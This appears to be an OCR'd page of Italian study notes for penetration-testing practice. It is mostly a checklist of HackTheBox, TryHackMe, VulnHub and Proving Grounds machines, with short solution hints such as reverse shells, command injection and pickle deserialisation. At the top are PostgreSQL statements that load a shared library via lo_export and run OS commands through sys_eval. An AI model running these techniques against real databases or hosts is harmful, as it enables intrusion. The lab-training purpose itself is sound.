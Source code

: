 select lo_export(16425, '/tmp/exploit1.so');

create or replace function exec(char) returns char as '/tmp/exploit1.so','sys_eval' language c strict;

select exec(‘ifconfig’);




Leggere writeup:
<s>HackTheBox Canape</s>
<s>VulnHub’s Pluck</s>
<s>TryHackMe’s Thompson</s>
<s>HackTheBox’s October</s>
<s>HackTheBox’s Frolic</s>
<s>HackTheBox’s Haircut</s>
<s>TryHackMe’s Kenobi</s>
<s>HackTheBox’s Joker</s>
<s>HackTheBox’s RedCross</s>
<s>TryHackMe’s HackPark</s>
<s>HackTheBox’s Help</s>
<s>TryHackMe’s Ignite</s>
<s>HackThebox’s Jarvis</s>
<s>TryHackMe’s Steel Mountain</s>
<s>VulnHub’s Brainpan</s>
<s>VulnHub’s Sedna</s><

Code is similar to
https://github.com/lolypop55/html5_snmp

Providing Grounds:
   - <s>Clyde</s>
   - <s>Shifty</s>
   - <s>Vector</s> - Padding Oracle Attack
   - <s>Billyboss</s> - Privilege escalation con SMBGhost Exploitation ma a me non funzionava
   - <s>Dibble</s> - C'era il parametro userlevel da modificare per accedere alla sezione per aggiungere nuovi log così da caricargli una reverse shell in nodejs
	- <s>Nickel</s> - C'erano delle API che listavano dei servizi per avere i processi e richiamando un API con POST dava un processo in cui c'erano delle credenziali per ssh. Poi in ftp si ci poteva loggare e prendere un pdf, cracckarlo e dentro c'era un endpoint per il command injection e con questo si poteva iniettare comandi powershell per creare una reverse shell.
	- <s>Shifty</s> - C'era flask app + memcached + python pickle. Per privilege escalation c'era uno script che cifrava i dati in una cartella backup, quindi si prendeva lo script per cifrare e se ne creava uno per decifrare e poi si prendevano i file per decifrarli e in uno di quelli c'era una chiave privata che si usava per loggarsi come root.
HTB
	- <s>bounty</s>
	- <s>legacy</s>
	- <s>Blue</s>
	- <s>Devel</s> uso di Watson e dell'exploit MS11-046
	- <s>Optimum</s>
	- <s>Bastard</s>
	- <s>granny</s>
	- <s>Artic</s>
	- <s>grandpa</s>
	- <s>silo</s>
	- <s>jerry</s> spiega anche come è fatto un war
	- <s>bashed</s>
	- <s>nibbles</s>
	- <s>beep</s>
	- <s>nineveh</s>
	- <s>solidstate</s>
	- <s>kotarak</s>
	- <s>node</s>
	- <s>valentine</s> c'è anche una parte in cui parlava di heartbleed
	- <s>poison</s>